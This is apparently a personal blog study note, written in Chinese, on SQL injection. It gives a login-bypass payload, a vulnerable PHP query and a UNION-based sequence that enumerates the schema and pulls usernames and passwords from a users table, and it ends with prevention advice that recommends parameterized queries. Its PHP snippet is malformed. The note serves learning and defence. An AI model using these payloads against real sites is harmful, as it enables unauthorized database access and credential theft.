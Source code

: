 ```yaml
---
title: Sql Injection
tags: Network
katex: true
abbrlink: e441acd0
date: 2023-03-12 19:20:48
description: 本文將總結SQL注入基本知識
cover: https://i.pinimg.com/564x/19/f7/46/19f746ebbe2f4553fa675539423c74e1.jpg
swiper_index: 92
categories:
- Network
---
```


### SQL 基本語法
```
SELECT 欄位 FROM 表格
SELECT 欄位 FROM 表格 UNION 1,2,3,...
```

#### Authrization Bypass
### PHP
```php
$user = $_GET[key=value]
$sql = "SELECT * FROM db WHERE USER = ' ' or 1=1 --"(True) 
```
在登陸介面 name 輸入 `' or 1=1 --` , password隨便輸
|符號|功能|
|--|--|
| '|stop|


```
?catogority=.... 這是向DB 輸 SQL指令
?catogority=' or 1=1 -- 使得DB輸出所為true東西
```

### Union SQL injection
確認有幾個欄位
```PHP
UNION SELECT NULL --
UNION SELECT NULL NULL --
UNION SELECT NULL NULL NULL --
```
確定是不是字串
```PHP
UNION SELECT 'a' NULL NULL
UNION SELECT NULL 'a' NULL 
UNION SELECT NULL NULL 'a'
```
查看有什麼資料
```
information_schema.schemata
information_schema.tables
information_schema.columns
```
EX: 取得某網站管理員帳號
```
'UNION SELECT 'a', 'a' --
'UNION SELECT schema_name, schema_name FROM information_schema.schemata --
'UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_schema = 'public' --
'UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' --
'UNION SELECT username, password FROM public.users --
```

### 預防
1. 黑名單
  拒絕含有SQL關鍵字輸入 (駭客總有方法進入, ex: 正則化...)
2. 白名單
   只允許特定字加入SQL
3. 參數化查詢
   最有效防止
   先編譯完再將查詢參數填入(參數不會被當作執行語法)

